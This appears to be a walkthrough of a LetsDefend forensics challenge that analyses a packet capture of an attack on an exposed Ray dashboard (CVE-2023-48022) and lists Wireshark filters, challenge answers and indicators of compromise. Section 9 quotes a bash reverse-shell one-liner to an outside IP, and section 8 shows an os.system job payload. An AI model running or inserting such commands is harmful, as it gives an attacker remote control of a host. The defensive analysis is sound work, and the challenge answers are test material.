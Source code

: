 
# 🧠💥 Let’sDefend Walkthrough – Compromised AI Cluster Challenge

Welcome to this **step-by-step walkthrough** of the _Compromised AI Cluster_ challenge on [Let’sDefend](https://letsdefend.io)! 🛡️ In this scenario, we’re diving into an incident involving an AI infrastructure running **Ray**—an open-source distributed computing framework.

> 🎯 **Objective:** Analyze the PCAP, identify attacker behavior, and extract indicators of compromise (IOCs).

---

## 🧰 Tools Used

- 🕵️‍♂️ **Wireshark** – for network packet analysis
- 🎯 **HTTP protocol knowledge** – to interpret requests/responses
- 🧹 **Filters & Search** – to extract relevant activity

---

## 🔎 1. Identify the Active Software Framework

**📝 Question:** What software framework was active on the server at the time of the incident?

📡 After opening the PCAP in Wireshark and examining HTTP request paths and payloads, I saw multiple references to `/api/jobs`—a Ray dashboard feature.

✅ **Answer:** `Ray`

---

## 🧩 2. Determine the Framework Version

**📝 Question:** What version of the software framework was installed?

🔍 Filter used:

```
http contains "version"
```

📄 Found version number in HTTP response payload.

✅ **Answer:** `2.8.0`

---

## 🌐 3. Public IP and Port of Ray Dashboard

**📝 Question:** What is the public IP address and port?

Look for the `Host:` header in HTTP requests.

✅ **Answer:** `3.72.0.226:8265`

---

## 👀 4. Persistent Malicious IP

**📝 Question:** Which IP persistently accessed the dashboard?

Filtered `/api/jobs`, `/api/packages`, etc.

✅ **Answer:** `104.28.245.2`

---

## ⏱️ 5. First Attacker Contact

**📝 Question:** When did attacker first interact with the system?

Filtered for ICMP packets and located first ping.

✅ **Answer:** `2024-04-12 15:51:41 UTC`

---

## 🧪 6. Initial Job Submission

**📝 Question:** What is the first job submission ID?

Used:

```
http.request.method == "POST" && http contains "/api/jobs"
```

📦 Payload:

```json
"submission_id": "raysubmit_kkeJ8vLuM942ycqH"
```

✅ **Answer:** `raysubmit_kkeJ8vLuM942ycqH`

---

## 🐞 7. CVE Exploited

**📝 Question:** What vulnerability was used?

Attackers submitted jobs to Ray via its unauthenticated dashboard API—a known issue:

✅ **Answer:** `CVE-2023-48022`

---

## 🖥️ 8. First Executed Command

**📝 Question:** What was the first command run?

👨‍💻 Job payload:

```python
import os; os.system('whoami')
```

✅ **Answer:** `whoami`

---

## 🛰️ 9. Reverse Shell Target

**📝 Question:** Where was the reverse shell initiated?

Detected outbound TCP connection in a job:

```bash
bash -i >& /dev/tcp/52.150.25.174/1337 0>&1
```

✅ **Answer:** `52.150.25.174:1337`

---

## 📁 10. Reverse Shell Directory

**📝 Question:** From what directory was the reverse shell executed?

📂 Directory seen in job environment:

✅ **Answer:**  
`/tmp/ray/session_2024-04-12_11-13-55_403523_10331/runtime_resources/working_dir_files/_ray_pkg_bf19252c1fb036e5`

---

## 🛫 11. Secrets Exfiltration Job ID

**📝 Question:** What job was used to steal the secrets file?

✅ **Answer:** `raysubmit_7WZE36LAkVxbNc1x`

---

## 🔀 12. New IP Used in Later Stages

**📝 Question:** What new IP address was used?

✅ **Answer:** `104.28.213.2`

---

## 📜 13. Contents of Exfiltrated File

**📝 Question:** What was in the exfiltrated file?

📄 `secret.txt` contents:

✅ **Answer:** `"Ops, you got me."`

---

## 🔓 14. Brute Force Behavior

**📝 Question:** How many brute-force packets were sent?

Used Wireshark filter:

```
ip.src == 104.28.154.194 && tcp.flags.syn == 1 && tcp.flags.ack == 0 && ip.dst == 172.31.30.230
```

Navigated to:

```
Statistics > Endpoints > IPv4
```

✅ **Answer:** `39,598 SYN packets`

---

## 🧠 Lessons Learned

📌 **Never expose dev/admin dashboards to the public.**  
📌 Monitor job submissions and API abuse.  
📌 Use firewall rules to restrict access to sensitive ports.  
📌 Watch for abnormal outbound connections (reverse shells, high SYN count).

---

## 🚨 Indicators of Compromise (IOCs)

| 🔎 Type           | 🧾 Value                           |
|------------------|------------------------------------|
| Attacker IPs     | 104.28.245.2, 104.28.213.2, 104.28.154.194 |
| CVE Exploited    | CVE-2023-48022                    |
| Reverse Shell    | 52.150.25.174:1337                |
| Commands Run     | `whoami`, reverse shell script    |
| File Exfiltrated | `secret.txt`                      |

---

Thanks for reading! If this helped you solve the challenge, consider giving it a ⭐ on GitHub or sharing with your fellow defenders! 💪🛡️
